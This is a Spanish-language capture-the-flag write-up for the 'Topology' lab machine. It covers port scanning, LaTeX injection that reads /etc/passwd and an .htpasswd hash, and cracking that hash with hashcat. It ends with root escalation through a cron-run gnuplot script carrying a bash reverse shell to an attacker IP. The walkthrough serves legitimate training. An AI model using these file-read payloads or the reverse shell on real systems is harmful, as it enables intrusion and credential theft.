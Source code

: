 ```yaml
---
title: "Topology"
date: "2025-02-21T17:00:00-05:00"
draft: false
tags: ["crontabs", "linux", "latex", "sudo", "subdominio", "file-read", "apache2", "pspy64"]
---
```


Una maquina en la que tenemos que hacer una inyeccion latex para poder leer archivos y asi conseguir el hash del usuario para luego mediante una tarea recurrente ganar root
Dificultad: Facil

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
```

- `-p-` Escanea todos los puertos `1-65535` .
- `—open` Solo muestra los puertos que esten abiertos.
- `-sS` Stealt scan cambia el modo de escane haciendo que no se complete el hanshake.
- `—min-rate 5000` Como minimo va a enviar 5000 paquetes por segundo.
- `-vvv` Aumenta la verbosidad mostrando la maxima informacion posible mientras se ejecuta.
- `-n` Desactiva la resolucion `DNS` no va a tratar de resolver los nombres de dominio.
- `-Pn` Nmap por default manda un ping a la ip esto lo desactiva.
- `-oG allPorts` Guarda el escaneo en formato `oG` en el archivo llamado `allPorts`.

Este escaneo nos dio dos puertos el 22 y el 80 vamos a hacer un escaneo mas exhaustivo a estos puertos.

```bash
sudo nmap -sCV -p22,80 IP -A -oN target
```

- `-sCV` Esto ejecuta una serie de scripts predeterminados de nmap para obtener información adicional sobre los servicios que se encuentran abiertos, como versiones de servicios, detalles del sistema operativo, vulnerabilidades conocidas y la version exacta.
- `-p22, 80` Especifica que puertos se van a escanear.
- `-A` Activa el descubrimiento de sistema operativo, la deteccion de version, script scanning y hace un traceroute.

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F8f56c9f9-b707-4579-afc6-d61cc5d381b4%2Fimage.png/size/w=2000?exp=1740435151&sig=wAtbSfyboAWq2G8uNoBKXr0DdyYwUD-kCCxL1G2gsAs)

La pagina http que esta en el puerto 80 usa Apache 2.4.41

## Puerto 80

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F3d2e0ba3-9fd2-4d58-bd08-1850a82eaf2b%2Fimage.png/size/w=2000?exp=1740435527&sig=7L_D7v3xzs5QR4CEddtiwt-7qKpSR9EyY5jEunNNUKk)

Al momento de entrar a el link `“Latex Equation Generator”` es un subdmonio por lo que tendremos que agregarlo al `/etc/hosts` para que nos muestre lo siguiente.

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F2cf1cf7d-24a3-4e1c-a337-0bd2f8325727%2Fimage.png/size/w=2000?exp=1740436028&sig=zrdAa0WMkOFkRV4CegRmfFfEd30irAzvavfeG4NN3BI)

Algo que podemos tratar es listar los archivos dentro de este subdmonio por lo que vamos a ingresar a la siguiente url [`http://latex.topology.htb/`](http://latex.topology.htb/equation.php) dejando el ultimo `/` .

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F5c4b4682-59f0-4af1-a65a-fdcace76ce39%2Fimage.png/size/w=2000?exp=1740436164&sig=ZuSZGwnlllrbPDV2aKP5D8SVwGidyWH_LPUBPzp4hK4)

Revisando los archivos lo unico util esta en `equationtest.tex` ya que nos muestra como estan tratando la entrada Latex la web.

```latex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

Podemos observar que la entrada esta entre los signos dolar, leyendo la pagina nos dicen que latex esta en el modo “[inline math](https://www.physicsread.com/latex-math-mode/)” buscando acerca de este modo nos encontramos que hay tres formas de tratar este modo:

1. $ . . .$
2. \begin{math} . . . \end{math}
3. \( . . . \)

# Foothold

Por lo que ahora sabemos porque esta entre esos signos y confirmamos que la entrada va a estar así planeando una inyección.

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

Vamos a tratar de empezar a leer archivos del sistema con la inyección de codigo.

```latex
$ \lstinputlisting{/etc/passwd} $
```

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F7056f1c2-ef28-466b-9c8c-b698a9bdcf14%2Fimage.png/size/w=2000?exp=1740436267&sig=SF0uQb2H4VaF14shYd7nBfiZvLYOG4N-3WsoEhnkJMk)

Una vez confirmamos que podemso leer archivos vamos a empezar a leer archivos de configuracion que nos permitan ingresar al sistema.

```latex
$ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $
```

En este archivo encontramos varios directorios entre ellos uno que pertence al subdominio `dev.topology.htb` lo agregamos al `/etc/hosts` y al ingresar nos pide una contraseña.

Vamos a listar archivos de configuracion por default de apache sobre el directorio correspondiente a este subdominio.

```latex
$ \lstinputlisting{/var/www/dev/.htaccess} $
```

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F3f4ffda2-fa46-4b76-84cd-64d0ee99b678%2Fimage.png/size/w=2000?exp=1740436336&sig=BbxRE2TBqJL_RCNgEIud2ooSrLwoQE9a7MMBy6-A7vE)

Por ultimo vamos a listar este archivo.

```latex
$ \lstinputlisting{/var/www/dev/.htpasswd} $
```

Nos vamos a encontrar un usuario junto con su hash, vamos a copiarlo y guardarlo en un archivo `.txt` para hacerle fuerza bruta con `hashcat`:

```python
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt --user
```

Esto nos dara su contraseña para iniciar sesion mediante ssh.

# Root

## Enumeración

Primero vamos a hacer el tratamiento de la shell 

```bash
export TERM=xterm
```

Listo ahora vamos a tratar de listar archivos y permisos a ver si encontramos algo, pero nos daremos cuenta rapidamente que no tenemos permitido el uso de sudo ni ningun permiso extraño por lo que lo unico que tiene algo interesante son las crontab pero no nos permite listarlas por lo que vamos a usar la herramienta [Pspy](https://www.notion.so/Pspy-1a1094373800803aaa8bcb2094703815?pvs=21) https://github.com/DominicBreuker/pspy/tree/master.

```bash
#Maquina atacante 
python3 -m http.server 80

#Maquina victima
wget IP/pspy64
chmod +x pspy64 
./pspy64
```

Luego de ejecutar el ultimo comando si esperamos un rato podremos ver que hay una script que se ejecuta cada minuto `/opt/gnuplot/getdata.sh` .

![image.png](https://img.notionusercontent.com/s3/prod-files-secure%2F750682be-fdb9-46ae-a38e-e8876d94867f%2F59db9639-6575-40b1-ab9f-a229c99fe49e%2Fimage.png/size/w=2000?exp=1740436365&sig=lYIvxtJBAYbFciQ_u4kZFntUQ_P-YGC0IMQEc3dbIwQ)

Si analizamos esta salida nos daremos cuenta que lo que se esta haciendo cada minuto es buscar en el directorio `/opt/gnuplot/` todos los archivos con extension `plt` y los ejecuta.

Si tratamos de ingresar al directorio no nos lo permite pero en cambio si creamos un archivo y lo movemos a esa direccion no habra ningun conflicto. Buscando escalaciones de privilegios con `gnuplot` que es el binario que se ejecuta encontramos la siguiente https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/gnuplot-privilege-escalation.

```bash
#Maquina atacante
nc -lvnp 4444

#Maquina victima
nano rev.plt

system "bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'"

mv rev.plt /opt/gnuplot/
```

Con esto tendremos acceso como root y habremos completado la maquina.
